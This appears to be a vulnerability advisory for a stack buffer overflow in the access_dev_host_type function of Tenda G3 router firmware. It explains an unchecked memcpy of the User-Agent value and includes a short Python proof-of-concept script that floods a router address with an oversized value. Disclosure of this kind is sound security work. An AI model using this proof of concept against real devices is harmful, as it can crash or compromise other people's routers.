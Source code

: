 # Tenda G3 access_dev_host_type
### Overview
vendor: Tenda

product: G3

version: V15.11.0.17(9502) and before

type: Stack Overflow
### Vulnerability Description
Tenda G3 V15.11.0.17(9502) and before were discovered to contain a stack overflow in the access_dev_host_type function.
### Vulnerability details
In function access_dev_host_type line 15、19, it reads in a user-provided parameter `User-Agent`, and the variable `s` is passed to the `memcpy` function without any length check, which may overflow the stack-based buffer `v6`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/g3-1-1.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/'
payload = {
    "User-Agent": 'a' * 2000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
